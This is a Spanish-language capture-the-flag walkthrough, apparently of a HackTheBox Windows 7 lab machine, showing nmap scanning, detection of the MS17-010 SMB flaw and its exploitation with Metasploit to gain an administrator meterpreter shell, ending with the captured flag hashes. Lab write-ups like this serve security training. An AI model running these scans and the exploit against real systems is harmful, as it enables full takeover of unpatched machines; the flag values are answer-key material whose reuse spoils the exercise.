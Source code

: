 
![[ 20250709103540.png]](blue-images/20250709103540.png)

# Nmap

empezamos con un escaneo de puertos básicos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -n -Pn 10.129.211.94 -oN scanner
```

![[ 20250709103640.png]]

seguimos con un escaneo de servicios y versiones con nmap

```bash
nmap -p135,139,445,49152,49153,49154,49155,49156,49157 -sCV 10.129.211.94 -oN targeted
```

![[ 20250709103734.png]]

aqui ya podemos ver la version windows 7 professional y vemos un usuario haris

# Autorecon

![[ 20250709103919.png]]

vemos el resultado de _full_tcp_nmap.txt_ y comprobamos que esta corriendo `Microsoft Windows 7|2008|8.1|2012|Vista|2016|10`

buscamos informacion en google

![[ 20250709104045.png]]

vemos que puede ser vulnerable a varias cosas asi que veamos con nmap scripts si nuestra victima es vulnerable

# Nmap scripts smb

lo primero es ver que scripts tenemos disponibles en nmap

```bash
ls /usr/share/nmap/scripts/ | grep smb
```

![[ 20250709104221.png]]

vemos varias pero las señaladas son las mas interesantes debido el resultado de la búsqueda en google

probamos 

```bash
nmap -p445 --script smb-vuln-ms10-061,smb-vuln-ms10-054,smb-vuln-ms17-010 -sV 10.129.211.94
```

![[ 20250709104411.png]]

vemos que es vulnerable a la vulnerabilidad `ms17-010`

# Metasploit

abrimos metasploit 

```bash
msfdb run
```

buscamos por la vulnerabilidad ms17-010

```bash
search ms17-010
```

![[ 20250709104602.png]]

podemos ver varios resultados

en mi caso elijo el modulo en la posición 0 ya que es el primero que aparece en caso de no funcionar seguiría probando con el resto

```bash
use 0
```

cambiamos el rhosts por la Ip victima (para ver las opciones de lo que podemos cambiar debemos usar el comando `options`)

```bash
set rhosts IPVICTIMA
```

con esto listo lanzamos el exploit

```bash
exploit
```

![[ 20250709104843.png]]

conseguimos una terminal como meterpreter con privilegios absolutos

# Flags

## Root

en el directorio `C:\Users\Administrator\Desktop` encontramos `root.txt`

![[ 20250709105020.png]]

root : fb20701fe3f28b9fbffcb452c7d6434a
## User

en el directorio `C:\Users\haris\Desktop` encontramos `user.txt`

![[ 20250709105122.png]]

user : 894ecdaf91fbd5713acf4fb76827d805

